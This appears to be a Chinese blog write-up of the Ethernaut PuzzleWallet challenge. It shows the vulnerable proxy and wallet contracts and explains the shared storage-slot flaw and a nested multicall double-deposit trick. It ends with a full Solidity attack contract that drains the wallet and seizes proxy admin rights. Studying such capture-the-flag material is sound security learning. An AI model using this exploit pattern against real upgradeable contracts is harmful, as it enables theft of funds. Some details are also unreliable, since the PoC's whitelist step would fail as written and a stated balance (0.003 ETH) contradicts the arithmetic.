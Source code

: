 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-18'
date: 2022-12-20 14:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

#### 第二十四关  PuzzleWallet 思路与POC

#### 目标: 几个精明的程序员构建了一个只有管理员可更新逻辑的钱包合约,劫持此钱包并成为代理合约的管理员

##### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";
//puzzle代理合约
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }
 //申请成为管理员函数,无任何限制
    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}
//puzzle逻辑实现合约
contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    
    mapping(address => bool) public whitelisted; //白名单map
    mapping(address => uint256) public balances;//地址->余额map
    
//初始化钱包,要求maxBalance变量为0
    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }
    //白名单限制  
    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }
   //设置钱包最大余额msg.sender必须在白名单上
    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }
 //只有owner能新增白名单地址
    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }
//只有白名单上的用户才能往钱包里冲钱
    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] += msg.value;
    }
//用户余额转出 没有重入漏洞
    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted    {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }
//同时调用多个逻辑合约的函数,但是deposit函数只允许被调用一次
    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        //循环取出函数选择器
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
            //注意一点 require判断是表达式结果为false的时候触发
                require(!depositCalled, "Deposit can only be called once");
                // 防止用户重复存入token
                depositCalled = true;
            }
            //call函数没防止回调,应该if(selector == this.multicall.selector){revert}
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
/*
发现问题了嘛(逻辑漏洞):合约创建者似乎忘记了代理合约与逻辑实现合约的存储槽是共享的
address public pendingAdmin; slot0 <-   address public owner; slot0
address public admin;  slot1 <-   uint256 public maxBalance; slot1

poc思路:
代理合约上的pendingAdmin变量可以没有任何限制的修改,但是它对应的是逻辑合约的owner(禁止修改)
替换了owner变量之后我们就劫持了wallet合约!!
之后仅需要修改 maxBalance变量即可对于修改代理合约的admin(flag)

*/
```

#####  所以我们得出以下流程:
1.PuzzleProxy.proposeNewAdmin() -> PuzzleWallet.addToWhitelist(you address)

##### 执行完1之后:

##### 此时我们成功劫持了逻辑合约,接下来就是想办法将合约的余额全部提现,然后才能调用setMaxBalance修改admin 

##### 那么如何将合约的余额全部提现呢,当前合约余额是0.001ETH.我们此时成为了白名单用户余额是0.

##### 问题关键在于需要我们的余额大于合约余额或者保持跟合约余额保持一致,如何做到看multicall函数.

##### 此时multicall函数允许我们调用deposit函数一次, 合约余额:0.002ETH user:0.001ETH.

##### 那么如果我们构建calldata:

##### {

##### 使其先调用deposit一次{0.001ETH} 

##### 然后回调multicall从而刷新depositCalled值,然后再调用deposit呢?{两次调用用户余额0.002ETH}

##### }

##### 由于以上括起来的操作都是在一次交易中完成的,所以实际上我们仅发送了0.001ETH到合约

##### 所以就得到了 合约余额:0.002ETH user:0.003ETH.

2. ##### PuzzleWallet.execute(you address ,合约所有余额) ->PuzzleWallet.setMaxBalance(uint256(you address))

  ##### 完成 :ok_hand:

#### 最终POC:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./Vulnerability/PuzzleWallet.sol";

contract hackWallet {
    PuzzleProxy public px = PuzzleProxy(payable(0x12E9E06d6AaA6941a0dd49C6D21F01D6c0f0CbeA));

    PuzzleWallet public wallet = PuzzleWallet(payable(0x12E9E06d6AaA6941a0dd49C6D21F01D6c0f0CbeA));

    function attack() public {
        //构造calldata
        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(wallet.deposit.selector);

        bytes[] memory nestedMulticall = new bytes[](2);
        nestedMulticall[0] = abi.encodeWithSelector(wallet.deposit.selector);
        nestedMulticall[1] = abi.encodeWithSelector(wallet.multicall.selector, depositSelector);

        //替换wallet合约中的owner
        px.proposeNewAdmin(msg.sender);
        wallet.addToWhitelist(msg.sender);

        //构造calldata使用户余额大于合约余额
        wallet.multicall{value: 0.001 ether}(nestedMulticall);
        //提现合约所有余额并且改变solt1 ,也就是改变proxy合约中的admin
        wallet.execute(msg.sender, 0.002 ether, "");
        wallet.setMaxBalance(uint256(uint160(msg.sender)));
    }
}

```

